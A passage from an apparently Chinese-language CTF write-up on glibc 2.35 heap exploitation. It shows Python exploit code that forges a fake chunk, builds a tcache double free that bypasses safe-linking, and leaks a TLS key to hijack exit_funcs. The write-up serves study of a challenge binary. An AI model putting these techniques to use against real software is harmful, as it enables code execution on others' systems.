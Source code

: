 - 合并之前

  ![image-20240418151026231](https://awaqwqa.github.io/img/xyctf/image-20240418151026231.png)

- 合并后

  ![image-20240418151102406](https://awaqwqa.github.io/img/xyctf/image-20240418151102406.png)

#### 构造fakecchunk

```python
fakechunk = {}
fakechunk["size"] = p64(0x21)
fakechunk["prev_size"] = p64(0)
fakechunk["chunk_list_size"] = p64(0x100)
fakechunk["isUsed"] = p64(1)
// 为触发泄露tls+0x30的double free的fastbinchunk地址
fakechunk["buff"] = p64(fd)
# 已经完成覆写 free index5则可实现任意free
add(14,0x58,b"a"*16+fakechunk["prev_size"]+fakechunk["size"]+fakechunk["chunk_list_size"]+fakechunk["isUsed"]+fakechunk["buff"])
```

- 此时index为5 就是我们劫持的`头chunk` 这里的fd就是我们后面要free的任意chunk

  ![image-20240418151731938](https://awaqwqa.github.io/img/xyctf/image-20240418151731938.png)

#### 泄露tls+0x30

> 由于要泄露tls+0x30处的地址 从而来泄露出key值 方便我们去劫持exit_funcs链表 所以我们需要构造一个double free来malloc下来tls附近的内存区域

- 难点

  - 我们需要控制内存对齐 并且还不能破坏到了canary的值 所以我们double free劫持的chunk大小需要够大
  - 实践发现这样会导致tcache中它标注的chunk数量和实际的数量并不对应 如果直接将fd填写为tls处地址 后续的malloc失效 因为tls处的fd位置我们并没有办法控制 大概率会是内存不对齐/内存不可写 所以我们需要后续的malloc
  - glibc2.35下存在fd加密机制 我们的fd需要经过与(base_heap>>12)进行异或操作 才是合法的fd才能够被正常解析 而且经过测试仿佛这里的base_heap会因为我们消耗topchunk一次而发生细微的改变 所以需要gdb手动调试计算出偏差

```python
# 构造一个double free
for i in range(6,11):
    add(i,0x18,b"a"*16)
# 这个chunk是以前为了当作跳板的chunk 但是后面切换了思路没有用了 为了不影响后续的heap计算就没有删除
add(14,0x68,p64(0)+p64(0x100)+p64((xor-0x21)^(tls+0x30)))
for i in range(6,11):
    delete(i)
delete(5)
for i in range(7):
    add(i,0x48,b"a"*8)
add(7,0x48,p64((xor)^(tls)))
for i in range(2):
    add(i,0x48,b"a"*8)
add(0,0x48,b"\x00")
# 泄露tls中信息
res = view(0)
```
